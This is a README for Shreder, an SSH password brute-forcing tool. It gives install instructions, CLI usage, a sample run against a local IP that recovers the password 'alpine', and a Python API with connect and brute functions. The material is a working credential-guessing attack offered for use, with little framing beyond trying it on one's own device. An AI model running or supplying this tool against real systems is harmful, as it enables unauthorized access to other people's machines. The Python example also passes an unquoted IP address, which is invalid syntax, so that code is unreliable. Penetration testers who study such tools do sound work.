 # Shreder

Shreder is a multi-threaded SSH brute forcing tool.

## Features

* Very fast password guessing, just one password in `0.1` second.
* Optimized for big password lists, Shreder tries 1000 passwords in `1` minute and `40` seconds.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/Shreder
```

## Basic usage

To use Shreder just type `shreder` in your terminal.

```
usage: shreder [-h] [-p PORT] [-u USERNAME] [-l LIST] target

Shreder is a multi-threaded SSH brute forcing tool.

positional arguments:
  target

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  SSH port.
  -u USERNAME, --username USERNAME
                        SSH username.
  -l LIST, --list LIST  Passwords list.
```

### Examples

Let's bruteforce my device just for fun.

```shell
shreder 192.168.2.109 -u mobile -l passwords.txt
```

**output:**

```shell
[*] Processing... \ | Passwords tried: 8/8
[*] Cooling down after process...
[+] Password has been found!
[i] Password: alpine
```

## Shreder API

Shreder also has their own Python API that can be invoked by importing Shreder to your code:

```python
from shreder import Shreder
```

### Basic functions

There are all Shreder basic functions that can be used to bruteforce specified device.

* `connect(host, port, username, password)` - Connect specified defice by network address.
* `brute(host, port, username, list)` - Bruteforce device with list of passwords.

### Examples

```python
from shreder import Shreder

shreder = Shreder()
password = shreder.brute(192.168.2.109, 22, 'mobile', 'passwords.txt')

print(f"Password: {password}")
```

**output:**

```shell
[*] Processing... \ | Passwords tried: 8/8
[*] Cooling down after process...
Password: alpine
```
